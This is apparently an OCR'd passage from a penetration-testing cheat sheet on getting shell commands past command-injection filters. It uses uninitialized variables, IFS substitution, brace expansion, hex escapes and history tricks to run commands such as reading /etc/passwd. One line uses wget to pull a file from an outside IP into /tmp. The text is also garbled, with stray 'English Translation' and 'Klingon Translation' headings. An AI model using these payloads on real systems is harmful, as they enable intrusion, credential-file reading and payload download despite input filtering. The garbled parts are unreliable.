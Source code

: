 ```bash

# Execution through $0
echo whoami|$0

# Uninitialized variables: A uninitialized variable equals to null (nothing)
cat$u /etc$u/passwd$u # Use the uninitialized variable without {} before any symbol
p${u}i${u}n${u}g # Equals to ping, use {} to put the uninitialized variables between valid characters

# Fake commands
p$(u)i$(u)n$(u)g # Equals to ping but 3 errors trying to execute "u" are shown
w`u`h`u`o`u`a`u`m`u`i # Equals to whoami but 5 errors trying to execute "u" are shown

# Concatenation of strings using history
!-1 # This will be substitute by the last command executed, and !-2 by the penultimate command
mi # This will throw an error
whoa # This will throw an error
!-1!-2 # This will execute whoami
```
### Bypass forbidden spaces

#### English Translation:

### Bypass forbidden spaces

#### Klingon Translation:

### Bypass yIqIm spaces
```bash
# {form}
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test

# IFS - Internal field separator, change " " for any other character ("]" in this case)
cat${IFS}/etc/passwd # cat /etc/passwd
cat$IFS/etc/passwd # cat /etc/passwd

# Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` # Using cat twice
#  Other way, just change each space for ${IFS}
echo${IFS}test

# Using hex format
X=$'cat\x20/etc/passwd'&&$X

# Using tabs
echo "ls\x09-l" | bash

# New lines
p\
i\
n\
g # These 4 lines will equal to ping

# Undefined variables and !
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```
### Bypass backslash and slash